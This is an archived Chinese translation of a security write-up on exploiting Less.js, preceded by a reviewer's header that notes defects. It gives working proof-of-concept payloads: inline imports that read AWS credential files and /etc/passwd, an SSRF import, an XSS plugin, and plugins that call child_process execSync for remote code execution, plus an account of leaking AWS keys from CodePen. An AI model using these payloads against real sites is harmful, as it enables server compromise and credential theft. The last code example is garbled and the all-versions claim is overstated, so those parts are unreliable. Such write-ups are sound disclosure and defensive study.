


## 核对与使用边界

- 代码问题保留：最后的本地文件示例把 `@import (inline)` 的 @ 丢失，单斜杠也不是正常注释；原片段不能当原样可运行 Less 输入。插件加载/JavaScript 功能开关与实际编译环境决定影响，不能仅依版本号推出全部 Less.js 应用可执行。

- 明确更正：原 version 字段抽入命令、源码、路径、配置或普通叙述，不是版本号，已清空机器版本字段并原样保留于 version_notes；实际版本/分支条件见本节逐篇记录，未从代码猜造版本。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：元数据是代码注释//Vulnerable plugin (3.13.1)，不是影响范围；需区分浏览器、Node及插件配置

代码与实验材料：完整给出导入与插件示例，最终本地文件示例丢失@；未独立证明所有版本适用

来源证据范围：MrWQ微信公众号译文，CodePen历史案例缺原研究及厂商通告

- **适用与权限边界（1）**：功能滥用前提被泛化为全版本RCE；依据：所有支持插件的Less均可利用的断言未限定服务端编译不可信输入、插件启用、Node运行时及执行权限。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **实验改动边界（2）**：版本字段及代码转录损坏；依据：version保存插件代码注释；最后一段import (inline)缺少@且单斜杠注释不合法。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **结论使用边界（3）**：浏览器和服务器影响混合；依据：浏览器插件JavaScript执行与服务器child_process、SSRF、文件读取需分开说明。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 利用 Less-js 实现远程代码执行 (RCE)

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PVgOU22JX4xTigL1HdbApg)

点击上方蓝字关注我们

Less(less.js) 是一种流行的预处理器语言，可转换为有效的 CSS 代码。它提供的功能有助于简化网站 CSS 的编写。研究人员在 Less.js 中发现了一个漏洞，攻击者可以利用该漏洞针对允许用户输入 Less.js 代码的网站实现远程代码执行 (RCE)。

漏洞详情


--------

第一个漏洞存在于 Less.js 的增强导入功能中，它包含不解释请求内容的内联模式。这可用于请求本地或远程文本内容，并在生成的 CSS 中返回。

此外，Less 处理器在其 @import 语句中无限制地接受 URL 和本地文件引用。当在服务器端处理 Less 代码时，这可用于 SSRF 和本地文件泄露。

**本地文件泄漏 PoC**

**1.** 创建一个 Less 文件：

```
// File: bad.less
@import (inline) "../../.aws/credentials";
```

**2.** 针对创建的 less 文件启动 lessc 命令：

```
lessc bad.less
```

**3.** 输出中包含引用的文件

```
Lessjs $ .\node_modules\.bin\lessc .\bad.less
[default]
  aws_access_key_id=[MASKED]
  aws_secret_access_key=[MASKED]
```

##### **SSRF PoC**

**1.** 在本地主机上启动 Web 服务器，以提供 Hello World 消息

**2.** 创建一个 Less 文件：

```
// File: bad.less
@import (inline) "http://localhost/";
```

**3.** 针对创建的 less 文件启动 lessc 命令，并注意输出包含引用的外部内容

```
Lessjs $ .\node_modules\.bin\lessc .\bad.less
Hello World
```

利用 Less 插件功能


----------------

Less.js 库支持插件，这些插件可以使用 @plugin 语法直接包含在远程的 Less 代码中。插件使用 JavaScript 编写，当 Less 代码被解释时，任何包含的插件都会执行。这可能会导致两种结果，具体取决于 Less 处理器的上下文。如果在客户端处理 Less 代码，则会导致跨站脚本攻击。如果在服务器端处理 Less 代码，则会导致远程代码执行。所有支持 @plugin 语法的 Less 版本都容易受到攻击。

以下两个代码段为 Less.js 插件示例：

版本 2：

```
// plugin-2.7.js
functions.add('cmd', function(val) {
  return val;
});
```

版本 3 及更高版本：

```
// plugin-3.11.js
module.exports = {
  install: function(less, pluginManager, functions) {
    functions.add('cmd', function(val) {
      return val;
    });
  }
};
```

这两个版本，都可以通过以下方式包含在 Less 代码中，甚至可以从远程主机获取：

```
// example local plugin usage
@plugin "plugin-2.7.js";
```

```
// example remote plugin usage
@plugin "http://example.com/plugin-2.7.js"
```

以下代码段显示了如何进行 XSS 攻击：

```
window.alert('xss')
functions.add('cmd', function(val) {
  return val;
});
```

以下插件片段 (v2.7.3) 展示了攻击者如何实现远程代码执行 (RCE)：

```
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```

以及包含插件的恶意 less：

```
@plugin "plugin.js";

body {
color: cmd('whoami');
}
```

请注意使用 lessc 转译 less 代码时的输出：



以下是 3.13.1 版本的等效 PoC 插件：  

```
//Vulnerable plugin (3.13.1)
registerPlugin({
    install: function(less, pluginManager, functions) {
        functions.add('cmd', function(val) {
            return global.process.mainModule.require('child_process').execSync(val.value).toString();
        });
    }
})
```

所有版本的恶意 Less 代码都是相同的。所有支持插件的 Lessjs 版本都可以使用上面的 poc 进行攻击。

真实示例：CodePen.io


-------------------

CodePen.io 是一个用于创建 Web 代码片段流行网站，它支持标准语言和其他语言，如 Less.js。研究人员在该网站上尝试了上诉 PoC，并能够泄露他们的 AWS 密钥，以及在 AWS Lambda 中运行任意命令。

以下显示了如何使用包含漏洞的本地文件读取环境值：

```
/ import local file PoC
import (inline) "/etc/passwd";
```

```
<style type="text/css" class="INLINE_PEN_STYLESHEET_ID">root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
...snip...
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
rngd:x:996:994:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
slicer:x:995:992::/tmp:/sbin/nologin
sb_logger:x:994:991::/tmp:/sbin/nologin
sbx_user1051:x:993:990::/home/sbx_user1051:/sbin/nologin
sbx_user1052:x:992:989::/home/sbx_user1052:/sbin/nologin
...snip...
</style>
```

以下屏幕截图显示了如何使用 Less 插件功能来实现 RCE：




  

END

  


好文！必须在看

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
